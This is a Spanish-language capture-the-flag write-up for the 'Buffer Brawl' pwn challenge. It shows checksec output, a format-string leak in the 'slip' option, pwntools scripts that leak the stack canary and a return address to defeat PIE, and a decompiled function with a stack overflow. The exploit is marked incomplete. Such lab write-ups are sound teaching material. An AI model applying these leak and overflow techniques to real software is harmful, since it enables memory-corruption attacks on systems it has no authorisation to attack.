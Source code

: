 # PWN / Buffer Brawl

Nos dan un juego en donde nos enfrentamos al stack y tenemos varias opciones:
```
Ladies and gentlemen...
Are you ready? For the main event of the CTF?
Introducing...
A challenge that packs a punch, tests your mettle, and overflows with excitement!
Let's get ready to buffeeeeeeeer!!!


Choose:
1. Throw a jab
2. Throw a hook
3. Throw an uppercut
4. Slip
5. Call off
```

Revisamos la seguridad del binario con checksec:
``` bash
checksec --file=buffer_brawl 
[*] '/home/kalcast/Descargas/buffer_brawl'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

No tiene nada relevante, pero sí encontramos una [vulnerabilidad de cadena formateada](https://owasp.org/www-community/attacks/Format_string_attack) en la funcion slip:
``` 
Ladies and gentlemen...
Are you ready? For the main event of the CTF?
Introducing...
A challenge that packs a punch, tests your mettle, and overflows with excitement!
Let's get ready to buffeeeeeeeer!!!


Choose:
1. Throw a jab
2. Throw a hook
3. Throw an uppercut
4. Slip
5. Call off
> 4

Try to slip...
Right or left?
%p
0x7ffca7cad6f0
```

Con este script filtramos las primeras 12 direcciones de memoria del stack y formateamos un poco la salida:

``` python
#leakstack.py
from pwn import *

elf = context.binary = ELF('./buffer_brawl')

io = process('./buffer_brawl')
io.sendline(b"4")
io.recvuntil(b"Right or left?\n")
io.sendline(b"%p"*14)
stack = io.recvline(keepends=False)
stack = [ 
         int(s,16) for s in stack.replace(b"(nil)",b"0x0").replace(b"0x",b" ").split()
         ]
print(stack)

for i, s in enumerate(stack):
    # i+1 because $ offsets start at 1
    print(f"{i+1}: {p64(s)} {hex(s)}") 
```

```
python3 leakstack.py 
[*] '/home/kalcast/Descargas/buffer_brawl'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[+] Starting local process './buffer_brawl': pid 6996
[140732999497680, 29, 140658260300893, 0, 0, 8080988412483825701, 8080988412483825701, 8080988412483825701, 94602831163429, 94888781943153, 7242369383397573120, 94888781944032, 94888781940551, 36]
1: b'\xd0wq\xf4\xfe\x7f\x00\x00' 0x7ffef47177d0
2: b'\x1d\x00\x00\x00\x00\x00\x00\x00' 0x1d
3: b']\xd4\xa3\x8d\xed\x7f\x00\x00' 0x7fed8da3d45d
4: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
5: b'\x00\x00\x00\x00\x00\x00\x00\x00' 0x0
6: b'%p%p%p%p' 0x7025702570257025
7: b'%p%p%p%p' 0x7025702570257025
8: b'%p%p%p%p' 0x7025702570257025
9: b'%p%p\nV\x00\x00' 0x560a70257025
10: b'q\x11$\x04MV\x00\x00' 0x564d04241171
11: b'\x00\xc2\x93\x1d\x95\x10\x82d' 0x648210951d93c200
12: b'\xe0\x14$\x04MV\x00\x00' 0x564d042414e0
13: b'G\x07$\x04MV\x00\x00' 0x564d04240747
14: b'$\x00\x00\x00\x00\x00\x00\x00' 0x24
[*] Stopped process './buffer_brawl' (pid 6996)
```

Escribimos el stack en 6, 11 es el canario y 13 es la direccion de retorno al menú. Podemos comprobar esto en radare2 u otro debbugger

![f1](https://github.com/user-attachments/assets/21c62cc0-ed0b-4073-8b97-935f0c10b5c0)

![return](https://github.com/user-attachments/assets/ef5625c9-3247-4e99-95db-0c8c4d64da63)

La primera imagen es el estado de la pila justo después de introducir la cadena, y la segunda es justo antes de ret. Como podemos observar efectivamente la décimo-tercera dirección filtrada es el retorno

Para calcular la direccion base del ejecutable solo hay que restarle el desplazamiento de esa direccion a la direccion filtrada. Encontramos el desplazamiento en un análisis estático al elf

![slipreturn](https://github.com/user-attachments/assets/385fe987-62a0-4462-8ffd-8362b0318bfa)

Entonces, podemos obtener las direcciones que nos interesan con %11$p y %13$p y calcular la direccion base del ejecutable, por ahora el script iría quedando así:

``` python3
from pwn import *
exe = context.binary = ELF("buffer_brawl")
io = process(exe.path)

def stack_leak(p):
    io.sendline(b"4")
    io.recvuntil(b"Right or left?\n")
    io.sendline(p)
    return io.recvline(keepends=False)

cookie, exe_leak = stack_leak(b"%11$p %13$p").split()
cookie = int(cookie[2:], 16)                              # Canario
exe_leak = int(exe_leak[2:], 16)                          # Direccion filtrada
exe.address = exe_leak - 0x1747                           # desplazamiento de la direccion de retorno a la base
``` 

El relleno se usa para alinear correctamente la memoria y asegurarse de que la dirección de la GOT esté en la posición adecuada.

`incompleto`
``` C
void stack_smash(void)

{
  long in_FS_OFFSET;
  undefined auStack_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nThe stack got dizzy! Now it\'s your time to win!");
  puts("Enter your move: ");
  __isoc99_scanf(&DAT_0010213d,auStack_28);
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    // WARNING: Subroutine does not return
  __stack_chk_fail();
}
```


